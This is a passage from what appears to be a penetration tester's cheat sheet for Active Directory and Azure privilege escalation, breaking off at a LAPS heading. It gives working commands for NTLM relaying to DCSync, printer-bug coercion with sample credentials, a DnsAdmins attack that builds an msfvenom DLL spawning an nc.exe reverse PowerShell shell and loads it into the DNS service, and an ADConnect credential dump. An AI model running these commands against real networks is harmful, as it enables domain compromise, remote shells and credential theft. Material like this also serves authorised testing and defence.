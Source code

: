 ```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ ./dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```




## DnsAdmins

* [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
* [http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
* [https://adsecurity.org/?p=4064](https://adsecurity.org/?p=4064)

Exploit:

```
$ msfvenom -p windows/x64/exec cmd='c:\users\snovvcrash\documents\nc.exe 127.0.0.1 1337 -e powershell' -f dll > inject.dll
PS > dnscmd.exe <HOSTNAME> /Config /ServerLevelPluginDll c:\users\snovvcrash\desktop\i.dll
PS > Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
PS > (sc.exe \\<HOSTNAME> stop dns) -and (sc.exe \\<HOSTNAME> start dns)
```

Cleanup:

```
PS > reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
PS > (sc.exe \\<HOSTNAME> stop dns) -and (sc.exe \\<HOSTNAME> start dns)
```




## Azure



### ADSync

* [https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1)
* [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

```
PS > Azure-ADConnect -server 127.0.0.1 -db ADSync
```




## LAPS
